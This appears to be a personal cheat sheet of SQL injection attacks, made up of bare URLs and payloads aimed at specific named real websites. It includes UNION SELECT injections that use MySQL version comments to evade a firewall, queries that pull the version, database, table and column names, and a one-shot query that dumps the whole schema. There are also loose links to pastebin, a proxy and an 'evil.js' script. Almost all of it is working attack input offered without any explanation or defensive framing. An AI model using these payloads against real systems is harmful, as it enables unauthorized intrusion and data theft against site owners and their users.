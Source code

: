 
-p id 


https://pastebin.com/u/cyberoot

webproxy.to

mmsecurity.net/evil.js

web developer tool bar


https://pastebin.com/u/cyberoot

http://www.huetouristvietnam.com

http://robertocarlosmoreira.com.br/links.php?id=74

Forbidden => Fire wall

http://robertocarlosmoreira.com.br/links.php?id=-74 '
/*!50000UNION */ SELECT 111111,
version()
,33333,44444
--+


http://robertocarlosmoreira.com.br/links.php?id=-74 '
/*!50000UNION */ SELECT 111111,
/*!50000database*/()
,33333,44444
--+

ef2797861e4e5f9c9528a807ecfea7de

//table names 
http://robertocarlosmoreira.com.br/links.php?id=-74 '/*!50000UNION */ SELECT 111111,group_concat(/*!50000table_name*/),33333,44444 from /*!50000information_schema*/.tables where table_schema=/*!50000database */()--+


//select table names
http://dsquared.co.th/listcat.php?catnox=-71')/*!50000UNION*/ SELECT 1,2,3,/*!50000Group_cOncat(table_name)*/,5,6,7,8,9,10 from /*!50000information_schema.tables*/ where table_schema=database()--+&id=21&lng=0


//select column names
http://dsquared.co.th/listcat.php?catnox=-71')/*!50000UNION*/ SELECT 1,2,3,
/*!50000Group_cOncat(column_name)*/,5,6,7,8,9,10+from+/*!50000information_schema.columns*/ where table_schema=database()+and+table_name='company'--+&id=21&lng=0


//Dump in one Shot ( Database,Table,Column )
http://dsquared.co.th/listcat.php?catnox=-71')
/*!50000UNION*/ SELECT 1,2,3,
(select (@x) from (select (@x:=0x00), (select (0) from (information_schema.columns) where (table_schema!=0x696e666f726d6174696f6e5f736368656d61) and (0x00) in (@x:=/*!50000concat*/(@x,0x3c62723e,table_schema,0x272d2d3e27,table_name,0x272d2d3e27,column_name))))x),5,6,7,8,9,10
--+&id=21&lng=0
